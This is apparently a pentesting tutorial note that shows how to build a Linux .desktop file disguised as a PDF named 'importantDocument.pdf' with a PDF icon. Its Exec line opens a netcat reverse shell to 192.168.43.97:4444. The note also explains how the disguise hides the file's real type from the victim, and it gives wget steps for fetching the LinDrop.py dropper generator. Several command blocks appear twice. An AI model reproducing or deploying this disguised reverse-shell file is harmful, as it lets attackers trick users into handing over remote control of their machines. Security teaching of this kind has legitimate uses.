

malicious file with .desktop file vulnerability
Manually generate malicious file with .desktop file vulnerability
.desktop file in linux very similar to the shortcut .lnk file in Windows. Both allow us to create a shortcut to an application
cd home/kali/Desktop
touch test.desktop
touch test.desktop
locate *pdf.svg #find on the pc a pdf icon for our file
gedit test.desktop
[Desktop Entry]
Type=Application
Name=importantDocument.pdf
Exec=/bin/nc -e /bin/sh 192.168.43.97 4444
Icon=/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/gscan2pdf.svg
Type=Application
Name=importantDocument.pdf
Exec=/bin/nc -e /bin/sh 192.168.43.97 4444
Icon=/usr/share/icons/Flat-Remix-Blue-Dark/apps/scalable/gscan2pdf.svg

[Desktop Entry] → field that tells us that this is a .desktop file but is not required for functioning
Type → specify the type of the .desktop file, there are 3 types that we can use: Application, Link, Directory
Name → file name that will be showed to end user, "test.desktop" will be renamed to “importantDocument.pdf” and the .desktop will be hidden
Exec → command that will be executed when the user will open the file
Icon → path to the icon that the user will see, to see the icon the file must to be on the Desktop

chmod +x test.desktop
To create these files we can also use a script called: LinDrop.py
GitHub site: https://github.com/secmode/LinDrop/blob/master/LinDrop.py
explanation: https://www.obscurechannel.com/x42/lindrop.html
Script used to create malicious pdf file
Download script
cd /home/kali/bin
mkdir lindrop
cd lindrop
wget "https://raw.githubusercontent.com/secmode/LinDrop/master/LinDrop.py"
mkdir lindrop
cd lindrop
wget "https://raw.githubusercontent.com/secmode/LinDrop/master/LinDrop.py"